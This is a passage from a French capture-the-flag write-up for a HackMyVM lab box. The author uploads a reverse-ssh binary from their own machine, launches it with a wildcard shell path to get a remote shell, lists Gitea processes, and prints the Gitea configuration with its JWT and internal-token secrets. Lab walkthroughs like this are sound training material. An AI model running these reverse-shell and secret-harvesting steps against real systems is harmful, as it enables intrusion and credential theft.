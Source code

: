 Youpi ! Je peux écrire dedans, ça va faciliter les choses. J'ai donc téléchargé `reverse-sshx64` (sous le nom `rev64`) depuis mon port 80 (car il y a aussi des règles de trafic sortant sur la VM).

Il m'a fallu du temps à comprendre pourquoi `reverse-ssh` ne voulait pas tourner : par défaut il exécute `bash` mais n'étant pas présent et ne pouvant pas spécifier `sh` dans la ligne de commande, j'ai utilisé `ash` avec un wildcard :

```bash
./rev64 -v -s /bin/as*
```

Une fois connecté, je découvre des process Gitea :

```
 2464 root      0:00 supervise-daemon gitea --start --pidfile /run/gitea.pid --respawn-delay 2 --respawn-max 5 --respawn-period 1800 --capabilities ^cap_net_bind_service --user gitea --env GITEA_WORK_DIR=/var/lib/gitea --chdir /var/lib/gitea --stdout /var/log/gitea/http.log --stderr /var/log/gitea/http.log /usr/bin/gitea -- web --config /etc/gitea/app.ini
 2465 gitea     0:11 /usr/bin/gitea web --config /etc/gitea/app.ini
```

Le fichier de configuration donne quelques infos utiles :

```bash
# Configuration cheat sheet: https://docs.gitea.io/en-us/config-cheat-sheet/
RUN_USER = gitea
RUN_MODE = prod
APP_NAME = Gitea: Git with a cup of tea
WORK_PATH = /var/lib/gitea

[repository]
ROOT = /opt/gitea/git
SCRIPT_TYPE = sh

[server]
STATIC_ROOT_PATH = /usr/share/webapps/gitea
APP_DATA_PATH = /var/lib/gitea/data
LFS_START_SERVER = true
HTTP_ADDR = 127.0.0.1
HTTP_PORT = 3002
SSH_DOMAIN = devoops.hmv
DOMAIN = devoops.hmv
ROOT_URL = http://devoops.hmv:3002/
DISABLE_SSH = false
SSH_PORT = 22
LFS_JWT_SECRET = 22TYqzojoq0KDtQOfuuiF8ir5_LlqVcc0FeNgTu-OkU
OFFLINE_MODE = true

[database]
DB_TYPE = sqlite3
PATH = /opt/gitea/db/gitea.db
SSL_MODE = disable
--- snip ---

[security]
INSTALL_LOCK = true
INTERNAL_TOKEN = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYmYiOjE3NDUyMTUwNzF9.V87lLErr_xxUZ8Dy1q_ZhOhaS4z-Dxdx0utHgDMOAb4
PASSWORD_HASH_ALGO = pbkdf2

[oauth2]
JWT_SECRET = jkFHJFxfiMkVnNVRqJOz2jkDzsrsBejztF7GlN25l8M
```
